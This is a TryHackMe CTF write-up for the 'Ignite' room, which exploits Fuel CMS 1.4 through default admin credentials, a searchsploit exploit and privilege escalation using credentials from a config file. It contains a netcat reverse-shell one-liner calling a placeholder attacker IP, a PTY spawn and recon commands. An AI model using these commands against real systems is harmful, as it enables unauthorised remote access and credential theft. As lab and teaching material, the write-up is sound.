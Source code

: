 # TryHackMe — Ignite WriteUp

![[Pasted image 20251001154221.png]]

**Room:** [Ignite](https://tryhackme.com/room/ignite)
**Category:** Web Application Exploitation
**Description:** This room is a CTF to exploit a vulnerable Fuel CMS web application.

---
## Tools
- **Nmap -** service and version discovery
- **Searchsploit -** local exploit database lookup
- **Python 3 -** run exploitation scripts and stabilizing shells
- **netcat (nc) -** listener for reverse shells
- **Custom exploit scripts -** (from Searchsploit results)
---
## Target
IP: `10.201.57.235` (exported as an environment variable for convenience)
```bash
# Set target IP for easier command reuse
export IP=10.201.57.235
```

---
# Phase 1: Enumeration & Recon

To start I performed an Nmap scan to identify open ports and services:
```bash
nmap -sV -sC -sS -T4 $IP
```

![[Pasted image 20250926111202.png]]
### Nmap findings:
- Port **80** open (HTTP).
- HTTP title and headers reveal **Fuel CMS**.
- `Disallow: /fuel/` entry was present in robots.txt

When I visited the site it shows Fuel CMS **Version 1.4** and default admin credentials on the page. **Username: admin / Password: admin**:
![[Pasted image 20250926112213.png]]

![[Pasted image 20250926112513.png]]

---
# Phase 2: Exploitation

I navigated to `/fuel/` and used the default credentials to log in to the admin account:
![[Pasted image 20250926112819.png]]

![[Pasted image 20250926112848.png]]

I attempted to upload a PHP file via the admin UI but received:
> "There was an error uploading your file. Please make sure the server is setup to upload files of this size and folders are writable."

This suggested either upload restrictions or non-writable directories is on this web app.:
![[Pasted image 20250926114833.png]]

### Searching for known vulnerabilities
I used `searchsploit` to find public exploits for Fuel CMS v1.4 and tested multiple results against the webapp:
![[Pasted image 20250926121629.png]]

Tried `47138.py` and it failed with an error:
![[Pasted image 20250926125013.png]]

Then tried 50477.py next and this resulted in shell access.:
![[Pasted image 20250926125359.png]]

With this exploit I was able to get a shell but it mostly returns 'system' with the cd and sudo command. The exploit produced a dummy shell (non-interactive), so the next thing I did was try to create a more interactive shell:
![[Pasted image 20250926131346.png]]

### Stabilizing an interactive shell

I opened another terminal and started a netcat listener:
![[Pasted image 20250926134102.png]]

In the dummy shell I ran this command, one-line reverse shell :
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <attacker_IP> 4444 > /tmp/f

#replace <attacker_IP> to my IP
```

After establishing a stable shell, I enumerated the filesystem and found the first flag under `/home/www-data`:
![[Pasted image 20250926135037.png]]

---
# Phase 3: Privilege Escalation
Performed standard enumeration:
```bash
hostname
uname -a
whoami
ps aux
env
find / -type f -perm /4000 2>/dev/null
find /etc -type f -readable 2>/dev/null
```

![[Pasted image 20250926141711.png]]
![[Pasted image 20250930111639.png]]

Initial enumeration showed standard users and `/etc/passwd` was readable and I was able to confirm `www-data` and `root` users:
![[Pasted image 20250926141315.png]]

![[Pasted image 20250926142115.png]]

Revisited the site content (previously observed pages/assets) and carefully searched for mentions of passwords.

I revisited the site because I remember observing that there was an assets directory in it. On the home page I found instructions referencing a password location. I searched for "password" and it led me to identify the instructions to access config `fuel/application/config/database.php`, which contained root credentials:
![[Pasted image 20250930114003.png]]

I navigated to the location `fuel/application/config/database.php`. and retrieved credentials to the root user:
![[Pasted image 20250930114046.png]]

The shell needed to update with a proper TTY To get to into root. So I ran this:
```bash
python3 -c 'import pty, os; pty.spawn("/bin/bash")'
```

After getting into root I was able to identify the file `root.txt` and it had the final flag in there: 
![[Pasted image 20250930115328.png]]

# Takeaways
- **Read everything on the target site**. Publicly visible default credentials and page instructions led directly to admin access and critical paths.
- **Security misconfiguration is a primary weakness.** This host exhibited insecure defaults and sensitive information exposure (OWASP: Security Misconfiguration / Sensitive Data Exposure).
- **Utilize shell stability** because the exploit that worked for me gave me access but it had limited functionality. Converting the non-interactive shells using netcat, PTY, TTY spawn was necessary.
- **Trial and error** for version-specific exploits. It is necessary for me to be prepared to try multiple exploits and handle failures.